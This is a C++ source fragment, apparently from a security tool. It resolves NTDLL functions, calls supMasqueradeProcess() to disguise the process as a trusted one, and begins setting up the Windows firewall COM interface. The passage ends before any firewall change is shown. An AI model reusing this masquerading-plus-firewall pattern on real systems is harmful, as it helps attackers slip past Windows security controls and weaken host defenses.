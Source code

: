 ```cpp
		{
			printf("Could not find RtlEnterCriticalSection entry point in NTDLL.DLL");
			exit(0);
		}

		RtlLeaveCriticalSection = (LPRTLLEAVECRITICALSECTION)GetProcAddress(hinstStub, "RtlLeaveCriticalSection");
		if (!RtlLeaveCriticalSection) 
		{
			printf("Could not find RtlLeaveCriticalSection entry point in NTDLL.DLL");
			exit(0);
		}

		LdrEnumerateLoadedModules = (LPLDRENUMERATELOADEDMODULES)GetProcAddress(hinstStub, "LdrEnumerateLoadedModules");
		if (!LdrEnumerateLoadedModules) 
		{
			printf("Could not find LdrEnumerateLoadedModules entry point in NTDLL.DLL");
			exit(0);
		}

		NtAllocateVirtualMemory = (LPNTALLOCATEVIRTUALMEMORY)GetProcAddress(hinstStub, "NtAllocateVirtualMemory");
		if (!NtAllocateVirtualMemory) 
		{
			printf("Could not find NtAllocateVirtualMemory entry point in NTDLL.DLL");
			exit(0);
		}
	}
	else
	{
		printf("Could not GetModuleHandle of NTDLL.DLL");
		exit(0);
	}

	supMasqueradeProcess();


	HRESULT hrComInit = S_OK;
	HRESULT hr = S_OK;
	INetFwPolicy2 *pNetFwPolicy2 = NULL;

	// Initialize COM.
	hrComInit = CoInitializeEx(
		0,
		COINIT_APARTMENTTHREADED
		);

	// Ignore RPC_E_CHANGED_MODE; this just means that COM has already been
	// initialized with a different mode. Since we don't care what the mode is,
	// we'll just use the existing mode.
	if (hrComInit != RPC_E_CHANGED_MODE)
	{
		if (FAILED(hrComInit))
		{
			printf("CoInitializeEx failed: 0x%08lx\n", hrComInit);
			// Release INetFwPolicy2
			if (pNetFwPolicy2 != NULL)
			{
				pNetFwPolicy2->Release();
			}

			// Uninitialize COM.
```